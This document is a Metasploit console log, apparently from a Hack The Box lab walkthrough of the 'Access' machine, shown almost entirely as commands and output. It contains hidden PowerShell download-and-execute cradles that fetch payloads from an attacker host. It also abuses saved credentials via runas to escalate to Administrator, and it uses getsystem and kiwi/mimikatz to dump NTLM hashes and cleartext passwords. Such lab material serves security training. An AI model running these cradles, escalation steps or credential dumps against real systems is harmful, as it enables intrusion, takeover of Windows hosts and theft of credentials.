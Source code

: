 msf5 exploit(multi/script/web_delivery) > exploit -j 

[*] Local IP: http://192.168.100.234:8081/ovuR3ArPYFio
[*] Server started.
[*] Run the following command on the target machine:
powershell.exe -nop -w hidden -c $t=new-object net.webclient;$t.proxy=[Net.WebRequest]::GetSystemWebProxy();$t.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $t.downloadstring('http://10.10.14.77:8081/ovuR3ArPYFio');

msf exploit(multi/script/web_delivery) > sessions 1
[*] Starting interaction with 1...
meterpreter > getuid
Server username: ACCESS\security
meterpreter > 


C:\Users\security>runas /savecred /user:ACCESS\Administrator "powershell.exe -nop -w hidden -c $X=new-object net.webclient;$X.proxy=[Net.WebRequest]::GetSystemWebProxy();$X.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $X.downloadstring('http://10.10.14.14:8081/HZg4d7k80');"

sessions 2
[*] Starting interaction with 2...

meterpreter > getuid
Server username: ACCESS\Administrator

# Get the passwords..
meterpreter > load kiwi
Success.
meterpreter > creds_all 
[!] Not running as SYSTEM, execution may fail
meterpreter > getuid
Server username: ACCESS\Administrator
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > creds_all 
[+] Running as SYSTEM
[*] Retrieving all credentials
msv credentials
===============

Username       Domain  NTLM                              SHA1
--------       ------  ----                              ----
Administrator  ACCESS  db852e5a46ea5f5514f639a20daa9e2c  974b219dcf5c05c895c152bbbc1aea6aeffbe860
security       ACCESS  b41db16a61cb04b231625de260163015  75f1e3aa023a0f57d4225f3ab4f18f6fea025414

wdigest credentials
===================

Username       Domain  Password
--------       ------  --------
(null)         (null)  (null)
ACCESS$        HTB     (null)
Administrator  ACCESS  55Acc3ssS3cur1ty@megacorp
security       ACCESS  4Cc3ssC0ntr0ller

